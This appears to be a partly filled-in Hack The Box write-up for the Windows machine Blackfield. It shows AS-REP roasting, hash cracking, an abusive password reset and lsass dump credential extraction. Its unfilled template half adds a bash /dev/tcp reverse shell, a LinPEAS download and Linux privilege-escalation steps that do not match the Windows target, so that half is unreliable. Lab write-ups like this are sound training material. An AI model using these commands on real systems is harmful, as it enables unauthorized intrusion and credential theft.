

<link rel="stylesheet" href="{{ '/assets/css/obsidian-dividers.css' | relative_url }}">
## Machine Information

| Property       | Value         |
| -------------- | ------------- |
| **Name**       | Blackfield    |
| **OS**         | Windows       |
| **Difficulty** | Hard          |
| **IP**         | 10.129.229.17 |


---

## Summary

<div class="divider divider-info">
    <span class="divider-title">TL;DR</span>
    <span class="divider-content">Brief one-paragraph summary of the box - what vulnerabilities were exploited and key techniques used.</span>
</div>
**Key Vulnerabilities:**
- Vulnerability 1
- Vulnerability 2
- Vulnerability 3

---

## Enumeration

### Nmap Scan

**Initial scan:**
```bash
nmap -vv -T5 -p- *TARGET_IP*

nmap -vv -T5 -p*DISOVERED_PORTS* -sC -sV *TARGET_IP*
```

**Results:**

| Port | Service  | TCP/UDP |
| ---- | -------- | ------- |
| 53   | DNS      | TCP     |
| 88   | Kerberos | TCP     |
| 135  | RPC      | TCP     |
| 139  | Netbios  | TCP     |
| 389  | LDAP     | TCP     |
| 445  | SMB      | TCP     |
| 593  | HTTP RPC | TCP     |
| 3268 | LDAP     | TCP     |
| 5985 | WinRM    | TCP     |

**Key findings:**
- SMB: Allowed to authenticate as `Guest` and to enumerate active shares

### LDAP Enumeration

```
nmap -p 389 --script ldap-rootdse 10.129.229.17
```


The target machine is `DC01` and the domain is `Blackfield.local`, need to update our `/etc/hosts` accordingly.


In this case we also need to create a fitting `krb5.conf`, I used NXC for that:
```
❯ nxc smb 10.129.229.17 -u 'Guest' -p '' --generate-krb5-file krb5.conf
```


```
# working krb5 file:

[libdefaults]
    dns_lookup_kdc = false
    dns_lookup_realm = false
    default_realm = BLACKFIELD.LOCAL

[realms]
    BLACKFIELD.LOCAL = {
        kdc = dc01.BLACKFIELD.local
        admin_server = dc01.BLACKFIELD.local
        default_domain = BLACKFIELD.local
    }

[domain_realm]
    .BLACKFIELD.local = BLACKFIELD.LOCAL
    BLACKFIELD.local = BLACKFIELD.LOCAL

```
---

### 
### SMB Enumeration

```
❯ nxc smb 10.129.229.17 -u 'Guest' -p '' --shares
```


We have 'Read' permissions  for `profiles$` as `Guest`, which is a custom share and worth checking out

```
❯ smbclient //10.129.229.17/profiles$ -U "Guest"%
Try "help" to get a list of possible commands.
smb: \> ls
```


Seems like we found a list of users, its possible to generate a list with the following command:
```
❯ smbclient -N \\\\10.129.229.17\\profiles$ -c ls | awk '{ print $1 }' > userlist.txt
```
---

## Initial Foothold

With the acquired user list, we can attempt to run `Impacket-GetNPUsers` to find users without pre-auth
```
❯ impacket-GetNPUsers blackfield.local/ -no-pass -usersfile userlist.txt -dc-ip 10.129.229.17
```
We found that the user `Support` has no pre-auth required


We create a new .txt file that contains the hash and attempt to crack with `john`

```
❯ john hash1.txt --wordlist=/usr/share/wordlists/rockyou.txt
```


---

### Vulnerability Discovery

**Vulnerability:** [Vulnerability Name]

<div class="divider divider-info">
    <span class="divider-title">UF_DONT_REQUIRE_PREAUTH</span>
    <span class="divider-content">a misconfiguration in Kerberos authentication where the pre-authentication requirement is disabled for user accounts in Active Directory. This creates a security weakness that attackers can exploit through an attack called AS-REP Roasting.</span>
</div>

Now we will confirm the credentials using NXC before moving on
```
❯ nxc smb 10.129.229.17 -u 'support' -p '#00^BlackKnight' --shares
```


---
### Lateral Movement

Now that we have valid credentials, we will use bloodhound-ce-py to enumerate the domain

```
bloodhound-ce-python -c All -d BLACKFIELD.LOCAL -k --zip -u support -p '#00^BlackKnight' -ns 10.129.229.17
```

Now the usual - Boot up bloodhound ----> Log In ----> Upload the zip ----> Profit?

First thing to check is compromised assets, in this case `support@blackfield.local`, and we find that this account has `ForceChangePassword` rights on `Audit2020@blackfield.local` 


We can now use the misconfiguration to compromise another user.

---
### Exploitation

**Step 1:** Change user password
```bash
# Commands
❯ net rpc password "audit2020" "asdasd123@" -U "BLACKFIELD.LOCAL"/"support"%"#00^BlackKnight" -S "DC01.BLACKFIELD.LOCAL"
```

**Step 2:** Validate changes
```bash
# Commands
❯ nxc smb 10.129.229.17 -u 'audit2020' -p 'asdasd123@' --shares
SMB         10.129.229.17   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.229.17   445    DC01             [+] BLACKFIELD.local\audit2020:asdasd123@ 
SMB         10.129.229.17   445    DC01             [*] Enumerated shares
SMB         10.129.229.17   445    DC01             Share           Permissions     Remark
SMB         10.129.229.17   445    DC01             -----           -----------     ------
SMB         10.129.229.17   445    DC01             ADMIN$                          Remote Admin
SMB         10.129.229.17   445    DC01             C$                              Default share
SMB         10.129.229.17   445    DC01             forensic        READ            Forensic / Audit share.
SMB         10.129.229.17   445    DC01             IPC$            READ            Remote IPC
SMB         10.129.229.17   445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.229.17   445    DC01             profiles$       READ            
SMB         10.129.229.17   445    DC01             SYSVOL          READ            Logon server share 
```

We can now enumerate the `forensic` SMB share.


We find an interesting folder `memory_analysis` and inside it `lsass.zip` since `lsass` is very commonly targeted for credentials, it makes sense to start by taking a look inside.


Seems to be a memory dump of lsass, this is useful, as we can now use `pypykatz` to retrieve hashes from the dump.


Lets try to authenticate with the `NT` hash


Authentication works! and this user is very likely to 
**Getting a shell:**
```bash
# Reverse shell command
bash -c 'bash -i >& /dev/tcp/10.10.14.x/4444 0>&1'
```

**Listener:**
```bash
nc -lvnp 4444
```


<div class="divider divider-root">
    <span class="divider-title">Shell</span>
    <span class="divider-content">Successfully gained shell as [username]</span>
</div>
---

## User Flag

**Stabilize the shell:**
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
# Press Ctrl+Z
stty raw -echo; fg
```

**Enumerate the system:**
```bash
whoami
id
uname -a
pwd
ls -la
```

**User flag location:**
```bash
cat /home/user/user.txt
flag{user_flag_here}
```

---

## Privilege Escalation

### Enumeration as [username]

**Check sudo privileges:**
```bash
sudo -l
```

**Check for SUID binaries:**
```bash
find / -perm -4000 -type f 2>/dev/null
```

**Check for interesting files:**
```bash
find / -name "*.conf" 2>/dev/null | grep -v "proc\|sys"
```

**Running LinPEAS:**
```bash
# On attacker machine
python3 -m http.server 8000

# On target
wget http://10.10.14.x:8000/linpeas.sh
chmod +x ./linpeas.sh
./linpeas.sh
```

### Lateral Movement (if applicable)


<div class="divider divider-info">
    <span class="divider-title">Discovery</span>
    <span class="divider-content">Explanation of how to move laterally</span>
</div>

**Exploitation:**
```bash
# Commands to switch users
```

### Root Escalation

**Vulnerability:** [Escalation method]

<div class="divider divider-warning">
    <span class="divider-title">Exploitation Path</span>
    <span class="divider-content">Detailed explanation of the privilege escalation vulnerability</span>
</div>

> [!warning] Exploitation Path
> Detailed explanation of the privilege escalation vulnerability

**Exploitation steps:**

**Step 1:**
```bash
# Command
```

**Step 2:**
```bash
# Command
```

**Step 3:**
```bash
# Command
```

<div class="divider divider-root">
    <span class="divider-title">Root Access</span>
    <span class="divider-content">Successfully escalated privileges to root</span>
</div>

### Root Flag

```bash
whoami
# root

cat /root/root.txt
flag{root_flag_here}
```

---

## Post-Exploitation

**Flags:**
- User: `flag{user_flag_here}`
- Root: `flag{root_flag_here}`
---
## Tools Used

| Tool           | Purpose                | Command/Usage                     |
| -------------- | ---------------------- | --------------------------------- |
| nmap           | Port scanning          | `nmap -sC -sV target`             |
| gobuster       | Directory enumeration  | `gobuster dir -u URL -w wordlist` |
| burpsuite      | Web traffic analysis   | Interactive                       |
| linpeas        | Linux enumeration      | `./linpeas.sh`                    |
| custom exploit | Specific vulnerability | `python3 exploit.py`              |

---

## References

- [Vulnerability Name - CVE-XXXX-XXXXX](https://cve.mitre.org/)
- [GTFOBins - Tool](https://gtfobins.github.io/)
- [HackTricks - Technique](https://book.hacktricks.xyz/)
- [OWASP - Vulnerability Type](https://owasp.org/)

---

## Timeline



---

**Pwned on:** [Date Here]  
**Difficulty Rating:** ⭐⭐⭐⭐⭐ (Personal rating)  
**Fun Factor:** ⭐⭐⭐⭐⭐ (How enjoyable was it?)